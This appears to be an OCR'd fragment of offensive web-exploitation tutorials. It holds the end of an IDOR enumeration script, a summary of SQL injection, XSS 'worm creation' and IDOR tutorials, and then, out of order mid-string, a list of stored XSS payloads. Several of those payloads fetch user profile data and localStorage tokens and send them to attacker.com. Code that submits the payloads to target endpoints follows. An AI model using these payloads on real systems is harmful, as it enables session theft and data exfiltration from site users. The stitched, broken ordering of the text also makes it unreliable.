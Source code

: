 ```python
            json.dump(results, f, indent=2, default=str)
        
        print(f"\n=== IDOR Testing Complete ===")
        print(f"Discovered endpoints: {len(results['discovery'])}")
        print(f"Cross-user access violations: {len(results['cross_user_access'])}")
        print(f"Accessible objects found: {len(results['bulk_enumeration'])}")
        print(f"Parameter pollution successes: {len(results['parameter_pollution'])}")
        print(f"ID format variations: {len(results['id_format_variations'])}")
        print(f"Results saved to idor_exploitation_results.json")
    else:
        print("Failed to authenticate multiple users for IDOR testing")
```

## Summary and Completion

The comprehensive vulnerability exploitation tutorials are now complete with:

1. **SQL Injection Tutorial** - Complete framework with discovery, enumeration, and automated SQLMap integration
2. **XSS Exploitation Tutorial** - Comprehensive testing for stored, reflected, and DOM XSS with worm creation
3. **IDOR Exploitation Tutorial** - Multi-user testing framework with bulk enumeration and bypass techniques

All tutorials include:
- Step-by-step instructions
- Automated testing scripts
- Professional tool integration
- Real-world attack scenarios
- Results documentation and reporting Executed</h1>'</script>",
            "<img src=x onerror=\"fetch('/api/users/profile').then(r=>r.json()).then(d=>fetch('http://attacker.com/steal',{method:'POST',body:JSON.stringify(d)}))\">",
            "<script>setInterval(()=>{if(localStorage.token)fetch('http://attacker.com/beacon',{method:'POST',body:localStorage.token})},5000)</script>",
            "<svg onload=\"eval(atob('YWxlcnQoJ1N0b3JlZCBYU1MnKQ=='))\">",  # Base64 encoded alert
            "<iframe src=\"javascript:parent.postMessage('XSS','*')\"></iframe>"
        ]
        
        results = []
        
        for payload in stored_payloads:
            try:
                # Store the XSS payload
                if endpoint_info['endpoint']['method'] == 'POST':
                    data = {endpoint_info['endpoint']['param']: payload}
                    store_response = self.session.post(
                        f"{self.base_url}{endpoint_info['endpoint']['url']}",
                        json=data
                    )
                    
                    if store_response.status_code in [200, 201]:
                        # Try to trigger the stored XSS by visiting the page
                        trigger_success = self.test_xss_execution(payload)
                        